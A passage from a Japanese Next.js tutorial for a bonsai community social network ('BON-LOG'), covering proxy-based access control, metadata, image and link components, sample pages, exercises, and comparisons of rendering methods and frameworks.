// 動作: /api/*, /_next/static/*, /_next/image/*, /favicon.ico 以外の
//       すべてのリクエストにProxyが適用される
```

> **BON-LOGでの使用箇所**: 実際の `proxy.ts`（プロジェクトルート）は上記の基本パターンを大幅に拡張しており、以下の機能を含みます。詳細は [5.14 Proxy詳細（旧Middleware）](#514-proxy詳細旧middleware) を参照してください。
> - CSP nonceの生成（XSS対策）
> - Origin検証（CSRF対策・POSTリクエストのみ）
> - Basic認証（ステージング環境向け）
> - メンテナンスモードチェック（Upstash Redis経由）
> - セキュリティヘッダーの付与（X-Frame-Options、X-XSS-Protection等）
> - 保護パスリスト: `/feed`、`/posts`、`/settings`、`/notifications`、`/bookmarks`、`/users`、`/messages`、`/drafts`、`/bonsai`、`/admin`、`/analytics`、`/pesticides`

> **実装しない場合の影響**: Proxyがなければ未ログインユーザーがタイムラインや設定ページに直接アクセスできます。ただし `(main)/layout.tsx` でも認証チェックをしているため二重保護になっています。セキュリティヘッダーがなければXSS・クリックジャッキングなどの攻撃に対して無防備になります。

### ロールベースのアクセス制御

```typescript
// proxy.ts（Next.js 16）
import { auth } from '@/lib/auth'

export default auth((req) => {
  const user = req.auth?.user

  // 管理者ページ
  if (req.nextUrl.pathname.startsWith('/admin')) {
    if (!user || user.role !== 'admin') {
      return Response.redirect(new URL('/feed', req.nextUrl))
      // 動作: 管理者以外が /admin にアクセス → /feed にリダイレクト
    }
  }

  // モデレーターページ
  if (req.nextUrl.pathname.startsWith('/moderate')) {
    if (!user || !['admin', 'moderator'].includes(user.role)) {
      return Response.redirect(new URL('/feed', req.nextUrl))
      // 動作: 管理者・モデレーター以外が /moderate にアクセス → /feed にリダイレクト
    }
  }
})
```

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| Proxyが実行されない | ファイルの配置場所が間違っている | プロジェクトルート（`app/`と同階層）に`proxy.ts`を配置（Next.js 16）。旧バージョンでは`middleware.ts` |
| 静的ファイルにもProxyが適用される | matcherの設定不足 | `_next/static`、`favicon.ico`等を除外するmatcherを設定 |
| 無限リダイレクトが発生する | リダイレクト先もProxyの対象 | リダイレクト先のパスをmatcherから除外する |

### 理解度チェック

<details>
<summary>Q1: matcherの正規表現 `/((?!api|_next/static|_next/image|favicon.ico).*)` は何をしていますか？</summary>

**A:** この正規表現は「否定先読み」を使って、`/api`、`/_next/static`（静的ファイル）、`/_next/image`（画像最適化）、`/favicon.ico`で始まるパス以外のすべてのリクエストにProxyを適用します。これにより、APIルートや静的アセットには認証チェックが適用されず、ページリクエストのみが対象になります。
</details>

---

## 5.9 Metadata

### このセクションで学ぶこと

- SEO対策としてのMetadataの重要性
- 静的メタデータと動的メタデータの使い分け
- Open Graph / Twitterカードの設定

MetadataはSEO対策のための情報です。

### 静的メタデータ

```typescript
// app/layout.tsx（実際のBON-LOG実装の抜粋）
import type { Metadata } from 'next'
import { BASE_URL } from '@/lib/constants/routes'

const baseUrl = BASE_URL

export const metadata: Metadata = {
  // タイトルテンプレート: 子ページのタイトルは「{ページ名} - BON-LOG」形式になる
  title: {
    default: 'BON-LOG - 盆栽愛好家のためのコミュニティSNS',
    template: '%s - BON-LOG',
  },
  description: '盆栽を愛する全ての人が集まり、知識や経験を共有できるSNSプラットフォーム。',
  keywords: ['盆栽', 'SNS', 'コミュニティ', '盆栽園', 'イベント', '松柏', '雑木'],
  authors: [{ name: 'BON-LOG' }],
  metadataBase: new URL(baseUrl),
  // RSSフィードのリンクを追加
  alternates: {
    canonical: '/',
    types: { 'application/rss+xml': '/feed.xml' },
  },
  openGraph: {
    type: 'website',
    locale: 'ja_JP',
    url: baseUrl,
    siteName: 'BON-LOG',
    title: 'BON-LOG - 盆栽愛好家のためのコミュニティSNS',
    description: '盆栽を愛する全ての人が集まり、知識や経験を共有できるSNSプラットフォーム。',
    images: [{ url: '/api/og', width: 1200, height: 630 }],  // 動的OG画像
  },
  twitter: {
    card: 'summary_large_image',
    title: 'BON-LOG - 盆栽愛好家のためのコミュニティSNS',
    description: '盆栽を愛する全ての人が集まり、知識や経験を共有できるSNSプラットフォーム。',
    images: ['/api/og'],
  },
  robots: {
    index: true,
    follow: true,
  },
  manifest: '/site.webmanifest',
}
```

> **実行結果の確認方法**
> ブラウザの開発者ツール（F12）→「Elements」タブで `<head>` 内を確認すると:
> - `<title>BON-LOG - 盆栽愛好家のためのSNS</title>` が設定されている
> - `<meta name="description" content="盆栽の写真や育成記録を...">` が設定されている
> - `<meta property="og:title" content="BON-LOG">` が設定されている（SNSシェア時のプレビュー用）
> - ブラウザのタブには「BON-LOG - 盆栽愛好家のためのSNS」と表示される

### 動的メタデータ

```typescript
// app/posts/[id]/page.tsx
import type { Metadata } from 'next'
import { prisma } from '@/lib/db'

export async function generateMetadata({
  params,
}: {
  params: Promise<{ id: string }>
}): Promise<Metadata> {
  const { id } = await params

  const post = await prisma.post.findUnique({
    where: { id },
    include: {
      user: { select: { nickname: true } },
      media: { take: 1 },
    },
  })

  if (!post) {
    return { title: '投稿が見つかりません' }
  }

  return {
    title: `${post.user.nickname}の投稿 - BON-LOG`,
    description: post.content?.substring(0, 100) || '',
    openGraph: {
      images: [post.media[0]?.url || '/default-og-image.jpg'],
    },
  }
}

export default async function PostPage({ params }) {
  // ...
}
```

> **実行結果の確認方法**
> `http://localhost:3000/posts/abc123` にアクセスした場合:
> - ブラウザのタブに「(投稿者のニックネーム)の投稿 - BON-LOG」と表示される
> - このURLをX（旧Twitter）やLINEでシェアすると、投稿者名・投稿内容のプレビュー・投稿画像がリッチプレビューとして表示される
> - 投稿が存在しない場合は、タブに「投稿が見つかりません」と表示される

### 理解度チェック

<details>
<summary>Q1: 静的メタデータと動的メタデータはどう使い分けますか？</summary>

**A:** 静的メタデータ（`export const metadata`）は、内容が固定のページ（トップページ、利用規約など）に使います。動的メタデータ（`generateMetadata`関数）は、URLパラメータに応じて内容が変わるページ（投稿詳細、ユーザープロフィールなど）に使います。動的メタデータではDBからデータを取得してtitleやdescriptionを設定できます。
</details>

> **BON-LOGでの使用箇所**: ルートレイアウト（`app/layout.tsx`）でサイト全体の静的メタデータを設定しています。タイトルテンプレート `template: '%s - BON-LOG'` により子ページのタイトルが「タイムライン - BON-LOG」のように自動整形されます。動的OG画像は `/api/og` ルートで生成されます。投稿詳細ページ（`app/(main)/posts/[id]/page.tsx`）では `generateMetadata` で投稿者名と投稿内容からSEO用メタデータを生成しています。
>
> **実装しない場合の影響**: `metadata` が設定されていないと、XやLINEでURLを共有したときにページタイトルや画像のリッチプレビューが表示されません。検索エンジンのインデックスにも不利です。動的OG画像がないと、すべての投稿で同じデフォルト画像が表示されます。

---

## 5.10 next/image と next/link

### このセクションで学ぶこと

- next/imageによる自動画像最適化の仕組みと使い方
- next/linkによるクライアントサイドナビゲーションの効果
- 外部画像のホワイトリスト設定

### next/image - 画像最適化

`next/image`は自動で画像を最適化します（WebP変換、遅延読み込み、サイズ調整）。

```typescript
import Image from 'next/image'

export function UserAvatar({ user }) {
  return (
    <Image
      src={user.avatarUrl || '/default-avatar.jpg'}
      alt={`${user.nickname}のアバター`}
      width={48}
      height={48}
      className="rounded-full"
      priority={false} // LCP画像にはtrue
    />
  )
}
// 表示: 48x48pxの丸いアバター画像。WebP形式に自動変換され、画面外では遅延読み込みされる

// 外部画像（Cloudflare R2）
export function PostImage({ url }) {
  return (
    <Image
      src={url}
      alt="投稿画像"
      width={600}
      height={400}
      sizes="(max-width: 768px) 100vw, 600px"
      className="rounded-lg"
    />
  )
}
// 表示: 角丸の投稿画像。モバイルでは画面幅いっぱい、PCでは600px幅で表示される
```

> **実行結果の確認方法**
> ブラウザの開発者ツール（F12）→「Network」タブで画像リクエストを確認すると:
> - 元画像が `.jpg` でも、`Content-Type: image/webp` としてWebP形式で配信されていることがわかる
> - 画面外の画像は、スクロールして画面に近づくまでリクエストが発行されない（遅延読み込み）
> - `?w=96&q=75` のようなパラメータが付与され、デバイスに最適なサイズで配信されている

外部画像を使う場合は`next.config.ts`で許可設定が必要です。

```typescript
// next.config.ts（実際のBON-LOG設定）
import type { NextConfig } from "next";

const nextConfig: NextConfig = {
  // Docker/コンテナ環境ではstandalone出力を使用
  output: 'standalone',

  images: {
    remotePatterns: [
      // Cloudflare R2（パブリックバケット）
      { protocol: 'https', hostname: '*.r2.dev' },
      // Cloudflare R2（カスタムドメイン）
      { protocol: 'https', hostname: '*.r2.cloudflarestorage.com' },
      // Supabase Storage
      { protocol: 'https', hostname: '*.supabase.co' },
      // Unsplash（ランディングページ用）
      { protocol: 'https', hostname: 'images.unsplash.com' },
    ],
    // 開発環境でのプライベートIP制限を回避
    unoptimized: process.env.NODE_ENV === 'development',
  },
  experimental: {
    serverActions: {
      // Server Actionsで画像アップロードを許可するボディサイズ上限
      bodySizeLimit: '10mb',
    },
  },
};

export default nextConfig
// この設定がないと、外部画像をnext/imageで表示しようとした際に
// "hostname is not configured under images in your next.config.ts" エラーが発生する
```

> **BON-LOGでの使用箇所**: `next.config.ts` はプロジェクトルートに1ファイルのみ存在します。Cloudflare R2のアバター・投稿画像、Supabaseストレージの画像、Unsplashのランディングページ画像を`next/image`で表示するために`remotePatterns`を設定しています。`bodySizeLimit: '10mb'`は画像アップロードのServer Actionで必要です。
>
> **実装しない場合の影響**: `remotePatterns`が設定されていない外部ドメインの画像は`next/image`で表示できず、`Invalid src` エラーになります。`bodySizeLimit`が小さすぎると大きな画像のアップロード時に`413 Request Entity Too Large`エラーが発生します。

### next/link - クライアントサイドナビゲーション

```typescript
import Link from 'next/link'

export function PostCard({ post }) {
  return (
    <article>
      <Link href={`/posts/${post.id}`}>
        <h2>{post.content}</h2>
      </Link>

      <Link href={`/users/${post.userId}`}>
        {post.user.nickname}
      </Link>
    </article>
  )
}

// プリフェッチを無効化
<Link href="/heavy-page" prefetch={false}>
  重いページ
</Link>
// 動作: リンクが画面内に入ってもプリフェッチしない（重いページで通信量を節約）
```

> **実行結果の確認方法**
> ブラウザの開発者ツール（F12）→「Network」タブでリンクの動作を確認:
> - `next/link` のリンクが画面内に表示されると、リンク先のデータが自動的にプリフェッチされる（Networkタブに先読みリクエストが出る）
> - リンクをクリックすると、ページ全体のリロードは発生せず、変更されたコンテンツ部分のみが瞬時に切り替わる
> - ブラウザのURLバーは更新されるが、画面が白くなる瞬間がない（クライアントサイドナビゲーション）

**【`<a>`タグ vs `next/link` の違い】**

| 項目 | `<a href="/posts/123">` | `next/link href="/posts/123"` |
|------|------------------------|-------------------------------|
| ナビゲーション | フルページリロード（サーバーからHTML全体を再取得） | クライアントサイドナビゲーション（変更部分のみ更新） |
| 画面遷移 | 画面が白くなる瞬間がある | 画面遷移がスムーズ |
| 速度 | 遅い | 高速 |
| プリフェッチ | なし | リンクが画面に入ったら先読みしてくれる |

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| 外部画像が表示されない | `next.config.ts`の設定不足 | `remotePatterns`にホスト名を追加 |
| 画像のwidthとheightが必須と怒られる | Image コンポーネントの仕様 | width/heightを指定するか`fill`プロパティを使う |
| 内部リンクなのにページ全体がリロードされる | `<a>`タグを使っている | `next/link`の`Link`コンポーネントに変更する |

### 理解度チェック

<details>
<summary>Q1: next/imageのpriority属性はどんな画像に付けるべきですか？</summary>

**A:** ページの最初に表示される画像（LCP: Largest Contentful Paint に該当する画像）に付けます。例えば、ページ上部のヒーロー画像やメインビジュアルです。`priority`を付けると遅延読み込みが無効化され、優先的に読み込まれるため、ページの表示速度が向上します。画面下部の画像には付けません（デフォルトの遅延読み込みが効率的です）。
</details>

> **BON-LOGでの使用箇所**: ユーザーアバター（`components/user/UserAvatar.tsx`）、投稿画像（`components/post/PostMedia.tsx`）、盆栽園の写真（`components/shop/ShopCard.tsx`）などすべての画像で `next/image` を使用しています。Cloudflare R2 と Supabase Storage のストレージドメインを `next.config.ts` の `remotePatterns` で許可しています。内部ページ遷移（投稿カードのクリック、ユーザー名のクリック等）はすべて `next/link` を使用しています。開発環境では `unoptimized: true` で画像最適化をスキップし、プライベートIPアドレスの問題を回避しています。
>
> **実装しない場合の影響**: `` タグを使うと自動WebP変換・遅延読み込み・サイズ最適化が行われず、ページが重くなります。`<a>` タグを使うとページ全体がリロードされ、ユーザー体験が悪化します（読み込み中に画面が白くなる）。

---

## 5.11 BON-LOGでの実例

### このセクションで学ぶこと

- 実際のプロジェクトでのApp Router構成パターン
- タイムラインページと投稿詳細ページの実装例
- Server Component + Client Componentの実践的な組み合わせ方

### タイムラインページの構成

```
app/(main)/feed/
├── page.tsx          # タイムライン本体（Server Component）
├── loading.tsx       # ローディングスケルトン
└── error.tsx         # エラー表示
```

```typescript
// app/(main)/feed/page.tsx（実際のBON-LOG実装）
import { Suspense } from 'react'
import { auth } from '@/lib/auth'
import { Timeline } from '@/components/feed/Timeline'
import { TimelineSkeleton } from '@/components/feed/TimelineSkeleton'
import { ComposeButton } from '@/components/feed/ComposeButton'
import { getGenres } from '@/lib/actions/post'
import { getTimeline } from '@/lib/actions/feed'
import { getDraftCount } from '@/lib/actions/draft'
import { getBonsais } from '@/lib/actions/bonsai'
import { getMembershipLimits } from '@/lib/premium'

// タイムラインデータをSuspense内で取得するServer Component
async function TimelineSection({ currentUserId }: { currentUserId?: string }) {
  const timelineResult = await getTimeline()
  const posts = timelineResult.posts || []
  return <Timeline initialPosts={posts} currentUserId={currentUserId} />
}

export default async function FeedPage() {
  const session = await auth()

  // 投稿ボタンに必要なデータを並列取得（比較的高速なクエリ）
  const [genresResult, limits, draftCount, bonsaisResult] = await Promise.all([
    getGenres(),        // ジャンル一覧（1時間キャッシュ）
    session?.user?.id
      ? getMembershipLimits(session.user.id)
      : Promise.resolve({ maxPostLength: 500, maxImages: 4, maxVideos: 0,
          canSchedulePost: false, canViewAnalytics: false }),
    getDraftCount(),    // 下書き数
    session?.user?.id ? getBonsais() : Promise.resolve({ bonsais: [] }),
  ])

  const genres = genresResult.genres || {}
  const bonsais = bonsaisResult.bonsais || []

  return (
    <div className="relative min-h-screen">
      <div>
        <h2 className="text-lg font-bold mb-4">タイムライン</h2>

        {/* Suspense境界: タイムラインをストリーミングで読み込み */}
        <Suspense fallback={<TimelineSkeleton />}>
          <TimelineSection currentUserId={session?.user?.id} />
        </Suspense>
      </div>

      {/* 投稿作成ボタン（タイムライン読み込み中でも即座に表示）*/}
      <ComposeButton
        genres={genres}
        limits={limits}
        draftCount={draftCount}
        bonsais={bonsais}
      />
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/feed` にアクセスすると:
> - ページ上部に「タイムライン」見出しが即座に表示される
> - タイムラインデータの取得中は `TimelineSkeleton`（グレーの骨格UI）が表示される
> - データ取得完了後に投稿カードがスムーズに差し替えられる（Streaming SSR）
> - 右下にフローティングの投稿作成ボタン（ComposeButton）が即座に表示される（タイムライン読み込み待ちが不要）
> - 各投稿カードには: 投稿者のアバター、ニックネーム、投稿本文、添付画像（あれば）、ジャンルタグ、いいね数、コメント数が表示される

> **BON-LOGでの使用箇所**: `app/(main)/feed/page.tsx` はBON-LOGのメインページです。`Suspense`を活用して投稿ボタンを先に表示しつつ、重いタイムライン取得を並列でストリーミングしています。`getGenres()` は `unstable_cache` で1時間キャッシュされるため高速です。直接Prismaを呼ぶのではなく、`getTimeline` Server Actionを経由して取得することで、ビジネスロジック（ブロック除外・ミュート除外等）をアクション層に集約しています。
>
> **実装しない場合の影響**: `Suspense` なしでタイムラインを取得すると、全データ取得完了までページ全体が白くなります。並列取得（`Promise.all`）なしで逐次取得すると表示が数倍遅くなります。

### 投稿詳細ページの構成

```
app/(main)/posts/[id]/
├── page.tsx          # 投稿詳細
├── loading.tsx       # ローディング
├── error.tsx         # エラー
└── not-found.tsx     # 404
```

```typescript
// app/(main)/posts/[id]/page.tsx（簡略版 - 実際のコードはより包括的です）
import { notFound } from 'next/navigation'
import { auth } from '@/lib/auth'
import { getPost } from '@/lib/actions/post'
import { getComments, getCommentCount } from '@/lib/actions/comment'
import { PostCard } from '@/components/post/PostCard'
import { ShareButtons } from '@/components/post/ShareButtons'
import { CommentThread } from '@/components/comment'

export async function generateMetadata({ params }: { params: Promise<{ id: string }> }) {
  const { id } = await params
  const result = await getPost(id)

  if (result.error || !result.post) return { title: '投稿が見つかりません' }

  const post = result.post
  return {
    title: `${post.user.nickname}さんの投稿`,
    description: post.content?.substring(0, 100),
  }
}

export default async function PostPage({ params }: { params: Promise<{ id: string }> }) {
  const { id } = await params
  const session = await auth()

  const [postResult, commentsResult, countResult] = await Promise.all([
    getPost(id),
    getComments(id),
    getCommentCount(id),
  ])

  if (postResult.error || !postResult.post) {
    notFound()
  }

  const post = postResult.post

  return (
    <div className="max-w-2xl mx-auto">
      <PostCard post={post} currentUserId={session?.user?.id} disableNavigation={true} />
      <ShareButtons
        url={`${process.env.NEXT_PUBLIC_APP_URL || 'https://bon-log.com'}/posts/${id}`}
        title={`${post.user.nickname}さんの投稿 | BON-LOG`}
      />
      <CommentThread
        postId={id}
        comments={commentsResult.comments || []}
        nextCursor={commentsResult.nextCursor}
        currentUserId={session?.user?.id}
        commentCount={countResult.count}
      />
    </div>
  )
}
```

> **補足**: 実際のコードではSEO用のJSON-LD構造化データ、パンくずリスト、広告バナー、投稿閲覧の分析記録なども含まれています。

> **画面表示**
> `http://localhost:3000/posts/abc123` にアクセスすると:
> - ページ上部に投稿カード（投稿者情報、本文、画像、いいね/コメント数）が大きく表示される
> - その下にSNSシェアボタン（X、LINE等）が横に並ぶ
> - さらにその下にコメント欄が表示される（既存コメントの一覧 + 新規コメント入力フォーム）
> - コメントはスレッド形式（返信が親コメントにぶら下がる構造）で表示される
> - ブラウザのタブには「(投稿者名)さんの投稿」と動的に生成されたタイトルが表示される（generateMetadataの効果）

---

## 5.12 演習問題

### 演習1: ユーザープロフィールページを作成

**要件**
- URL: `/users/[id]`
- ユーザー情報（アバター、ニックネーム、自己紹介）を表示
- ユーザーの投稿一覧を表示
- 動的メタデータを設定
- ユーザーが存在しない場合は404ページを表示

**ヒント**
```typescript
// app/(main)/users/[id]/page.tsx
import { prisma } from '@/lib/db'
import { notFound } from 'next/navigation'

export async function generateMetadata({ params }) {
  // ユーザー情報からメタデータを生成
}

export default async function UserPage({ params }) {
  const { id } = await params

  // ユーザーと投稿を並列取得
  const [user, posts] = await Promise.all([
    // ...
  ])

  if (!user) {
    notFound()
  }

  // ...
}
```

### 演習2: フォロー機能のServer Actionを実装

**要件**
- フォロー/フォロー解除のServer Actionを作成
- 認証チェックを実施
- 自分自身はフォローできないようにする
- 成功/失敗を返す
- キャッシュを適切に更新

**ヒント**
```typescript
// lib/actions/follow.ts（簡略版 - 実際のコードはトグル方式でより包括的です）
'use server'

import { auth } from '@/lib/auth'
import { prisma } from '@/lib/db'

export async function toggleFollow(userId: string) {
  const session = await auth()

  // 認証チェック
  if (!session?.user?.id) {
    return { error: '認証が必要です' }
  }

  // 自分自身のチェック
  if (session.user.id === userId) {
    return { error: '自分自身をフォローすることはできません' }
  }

  // 現在のフォロー状態を確認
  const existingFollow = await prisma.follow.findUnique({
    where: {
      followerId_followingId: {
        followerId: session.user.id,
        followingId: userId,
      },
    },
  })

  if (existingFollow) {
    // フォロー解除
    await prisma.follow.delete({ where: { followerId_followingId: { followerId: session.user.id, followingId: userId } } })
    return { success: true, following: false }
  } else {
    // フォロー
    await prisma.follow.create({ data: { followerId: session.user.id, followingId: userId } })
    // 通知作成...
    return { success: true, following: true }
  }
}
```

> **補足**: 実際の`lib/actions/follow.ts`では、レート制限チェック、非公開アカウントのフォローリクエスト処理、通知作成、アナリティクス記録なども含まれています。

### 演習3: 検索ページを作成

**要件**
- URL: `/search?q=キーワード`
- クエリパラメータから検索キーワードを取得
- 投稿内容とユーザーニックネームを検索
- 検索結果がない場合は「検索結果がありません」と表示
- ローディング状態を表示

**ヒント**
```typescript
// app/(main)/search/page.tsx
import { prisma } from '@/lib/db'

export default async function SearchPage({
  searchParams,
}: {
  searchParams: Promise<{ q?: string }>
}) {
  const { q } = await searchParams

  if (!q) {
    return <div>検索キーワードを入力してください</div>
  }

  const [posts, users] = await Promise.all([
    prisma.post.findMany({
      where: {
        content: { contains: q, mode: 'insensitive' },
      },
      // ...
    }),
    prisma.user.findMany({
      where: {
        nickname: { contains: q, mode: 'insensitive' },
      },
      // ...
    }),
  ])

  // ...
}
```

---

## 5.A 専門用語集

### このセクションで学ぶこと

- Next.js / Web開発で頻出する専門用語の正確な意味
- 似ている概念の違いを明確に区別する方法
- 各用語が実際のBON-LOGコードのどこに対応するか

この章の冒頭で用語の一覧表を掲載しましたが、ここではより深掘りした解説を行います。特に混同しやすい概念をペアで比較しながら説明します。

### SSR vs SSG vs ISR vs CSR -- レンダリング方式の4兄弟

Web開発で最も混乱しやすい用語群です。これらは「HTMLをいつ・どこで生成するか」の違いです。

**【レンダリング方式の比較マトリクス】**

| 方式 | いつ生成？ | どこで生成？ | データの鮮度 | 速度 |
|------|----------|------------|------------|------|
| CSR | 表示時 | ブラウザ | 常に最新 | 遅い |
| SSR | リクエスト時 | サーバー | 常に最新 | 普通 |
| SSG | ビルド時 | サーバー | ビルド時点 | 最速 |
| ISR | ビルド時 + 定期再生成 | サーバー | 定期更新 | 速い |

具体例で理解する（BON-LOGの場合）:

- **CSR**: （Next.jsでは基本使わない方式。React単体の動作方式）ブラウザがJSをダウンロード → JS実行 → API呼び出し → 画面描画。例: Reactだけで作ったSPA
- **SSR**: ユーザーがアクセス → サーバーがDBからデータ取得 → HTML生成 → 送信。例: `/feed`（タイムライン）... ログインユーザーごとに内容が違う
- **SSG**: `npm run build`実行時 → サーバーがHTML生成 → CDNに配置。例: `/terms`（利用規約）... 内容が変わらないページ
- **ISR**: 最初のアクセスでHTML生成 → 60秒キャッシュ → 期限切れで再生成。例: `/ranking`（人気ランキング）... ある程度の鮮度で十分

### Streaming とは

SSRの進化形として、**Streaming**という方式もあります。通常のSSRではページ全体のHTMLが完成してから送信しますが、StreamingではHTMLを部分的に送信できます。


```mermaid
sequenceDiagram
    participant S as サーバー
    participant B as ブラウザ

    Note over S,B: 通常のSSR
    S->>S: 全データ取得を待つ（遅い部分があると全体が遅延）
    S->>B: 完成HTML（全部できた！）

    Note over S,B: Streaming SSR
    S->>B: ヘッダーHTML（ヘッダーできた！）
    B->>B: ヘッダー表示
    S->>B: 本文HTML（本文できた！）
    B->>B: 本文表示
    S->>B: サイドバーHTML（サイドバーできた！）
    B->>B: サイドバー表示
```

Next.jsでは `<Suspense>` と `loading.tsx` でStreamingを実現:

```tsx
export default function FeedPage() {
  return (
    <div>
      <h1>タイムライン</h1>          {/* 即座に表示 */}
      <PostForm />                    {/* 即座に表示 */}

      <Suspense fallback={<Loading />}>
        <PostList />                  {/* データ取得完了後に表示 */}
      </Suspense>
    </div>
  )
}
// 表示の流れ:
// 1. まず「タイムライン」見出しと投稿フォームが表示される（HTML到着即座）
// 2. PostList部分には <Loading /> のスピナーが表示される
// 3. PostListのデータ取得が完了すると、スピナーが投稿一覧に置き換わる
```

### SPA vs MPA

**【SPA と MPA の違い】**

| 項目 | SPA (Single Page Application) | MPA (Multi Page Application) | Next.js (いいとこ取り) |
|------|------|------|------|
| 概要 | 1つのHTMLを読み込み、JSで画面を書き換え | ページごとに別々のHTMLを読み込む | サーバーが完成HTMLを送信 + クライアントサイドナビゲーション |
| 初回 | index.html + 大きなJSファイルをダウンロード | そのページ用のHTMLをダウンロード | サーバーが完成HTMLを送信（MPAのメリット） |
| ページ遷移 | JSがDOMを書き換え（HTML再読み込みなし） | 新しいHTMLを読み込み直す（画面が一瞬白くなる） | next/linkでクライアントサイドナビゲーション（SPAのメリット） |
| メリット | ページ遷移が高速、リッチな体験 | SEOに有利、初回読み込みが軽い | SEOにも強く、ページ遷移もスムーズ |
| デメリット | 初回読み込みが遅い、SEOに不利 | ページ遷移時に画面がちらつく | - |
| 例 | Gmail, Google Maps, Reactアプリ | 従来のWebサイト | BON-LOG |

### CDN / エッジ / オリジン

```
【CDN・エッジ・オリジンの関係】

  ユーザー（東京）  ←──── エッジサーバー（東京） ←──── オリジンサーバー（米国）
                     ↑ 距離が近いので速い           ↑ 実際のデータがある場所
                     これが「CDNのエッジ」            アプリとDBが動作する場所

  CDN（Content Delivery Network）:
  世界中にサーバー（エッジ）を配置し、ユーザーに最も近いサーバーから
  コンテンツを配信するネットワーク

  Edge Runtime:
  エッジサーバー上で動作する軽量な実行環境
  Next.jsのproxy.ts（Middleware）はここで動く
  → 認証チェックがユーザーの近くで高速に実行される

  Vercelの場合:
  静的ファイル → 世界中のエッジから配信（超高速）
  Server Components → オリジンサーバーで実行
  proxy.ts（Middleware） → エッジサーバーで実行（高速）
```

---

## 5.B 技術選定の理由

### このセクションで学ぶこと

- Reactベースのフレームワーク比較とNext.jsを選んだ理由
- レンダリング戦略の使い分け基準
- キャッシュ戦略の選択肢と使い分け
- デプロイ先の選択肢とVercelを選んだ理由

### Reactフレームワークの選択肢

Reactを使ったWebアプリケーションを構築する場合、いくつかのフレームワーク（または「フレームワークを使わない」という選択肢）があります。BON-LOGではNext.jsを採用しましたが、他にどんな選択肢があり、なぜNext.jsを選んだのかを解説します。

**【Reactフレームワーク比較表】**

| フレームワーク | SSR対応 | SSG対応 | App Router風ルーティング | デプロイ先推奨 | 日本語情報量 |
|--------------|---------|---------|------------------------|--------------|-------------|
| Next.js | ✅ | ✅ | ✅ | Vercel | 非常に多い |
| Remix | ✅ | ✅ | ✅(※1) | Cloudflare等 | 少なめ |
| Gatsby | ❌ | ✅ | ❌ | Netlify等 | やや少ない |
| Astro | ✅ | ✅ | ✅(※2) | Cloudflare等 | 少なめ |
| Create React App | ❌ | ❌ | ❌(※3) | どこでも | 多い（非推奨） |

- ※1 Remixはファイルベースルーティングだが、App Routerとは設計思想が異なる
- ※2 AstroはReact以外のフレームワークも混在可能（Islands Architecture）
- ※3 Create React Appは2023年にReact公式から非推奨に。純粋なCSRのみ

#### 各フレームワークの特徴

**Next.js（本プロジェクトで採用）**

| 項目 | 内容 |
|------|------|
| **強み** | React公式が推奨するフレームワーク / App Router + Server Components（React最新機能を最速でサポート） / Vercelとの統合（プレビューデプロイ、Analytics、Edge Functions） / 日本語の技術記事・書籍が圧倒的に多い / 企業の採用実績が多い（求人にも有利） / Server Actions・Proxy（Middleware）・ISR など豊富な機能 |
| **弱み** | Vercelに最適化されている（他の環境では一部機能が制限される場合がある） / 設定・概念が多い（学習コストがやや高い） / バンドルサイズが比較的大きくなることがある |

**Remix**

| 項目 | 内容 |
|------|------|
| **強み** | Webの標準仕様（Form, fetch, HTTP）を重視した設計 / ネスト化されたルーティングとデータロード / エラーハンドリングが直感的 / Cloudflare Workers上でのデプロイに強い |
| **弱み** | 日本語情報が少ない / ISR相当の機能がない（キャッシュはCDN側で管理） / React Server Componentsの対応が遅い |

**Gatsby**

| 項目 | 内容 |
|------|------|
| **強み** | 静的サイト生成に特化（ブログ、ドキュメントに最適） / GraphQLベースのデータレイヤー / プラグインエコシステムが豊富 |
| **弱み** | SSR非対応（動的データの多いアプリには不向き） / ビルド時間が長くなりがち / 開発が活発でなくなってきている / SNSのような動的コンテンツが多いアプリには不向き |

**Astro**

| 項目 | 内容 |
|------|------|
| **強み** | デフォルトでJavaScriptゼロ（静的HTML出力） / Islands Architecture（必要な部分だけインタラクティブに） / React, Vue, Svelteなど複数のフレームワークを混在可能 / コンテンツサイト（ブログ、ドキュメント）に最適 |
| **弱み** | フルスタックアプリケーションとしての機能はNext.jsに劣る / 認証やDB操作の統合は自前で構築する部分が多い / SNSのようなインタラクティブなアプリには制約がある |

#### なぜBON-LOGでNext.jsを選んだか

**【BON-LOGの要件とフレームワーク選定】**

BON-LOGの要件:
1. ユーザー認証が必要（ログイン/登録）
2. タイムラインは常に最新データが必要（SSR）
3. 盆栽園マップはインタラクティブ（Client Component）
4. 利用規約は静的（SSG）
5. ランキングは定期更新（ISR）
6. SEO対策が重要（盆栽園ページで検索流入を狙う）
7. 将来的にPWA対応の予定
8. チームメンバーは日本語でドキュメントを読みたい

各要件に対する評価:

| 要件 | Next.js | Remix | Gatsby | Astro |
|------|---------|-------|--------|-------|
| 認証 | ◎(※1) | ○ | △ | △ |
| SSR | ◎ | ◎ | ✕ | ○ |
| Client動作 | ◎ | ◎ | ◎ | ○ |
| SSG | ◎ | ○ | ◎ | ◎ |
| ISR | ◎ | △ | ✕ | △ |
| SEO | ◎ | ◎ | ◎ | ◎ |
| PWA | ◎ | ○ | ○ | ○ |
| 日本語情報 | ◎ | △ | ○ | △ |

※1 NextAuth.js (Auth.js) との統合が成熟している

> 結論: Next.jsがすべての要件を高いレベルで満たしている。特に「SSR + SSG + ISRの混在」と「日本語情報の豊富さ」が決定打。

### レンダリング戦略の選択肢

セクション5.1で学んだSSR/SSG/ISRに加え、ここではStreamingとSPA（CSR）を含めた5つの戦略について、使い分けの基準をまとめます。


```mermaid
flowchart TD
    Start["そのページのデータは..."]
    Q1{"Q1: ログインユーザーごとに異なる？"}
    Q2{"Q2: リアルタイム性が重要？<br/>（数秒の遅れも許されない？）"}
    Q3{"Q3: データはほぼ変わらない？<br/>（月に数回程度の更新）"}
    Q4{"Q4: 数分〜数時間の遅延は許容できる？"}

    SSR_Streaming["SSR + Streaming<br/>例: タイムライン、通知、DM"]
    SSR1["SSR<br/>例: ユーザーの投稿一覧"]
    SSG["SSG<br/>例: 利用規約、ランディングページ、ヘルプ"]
    ISR["ISR<br/>例: ランキング[5分]、ジャンル一覧[1時間]、イベント一覧[30分]"]
    SSR2["SSR<br/>例: 盆栽園の最新レビュー"]

    Start --> Q1
    Q1 -->|Yes| Q2
    Q1 -->|No| Q3
    Q2 -->|Yes| SSR_Streaming
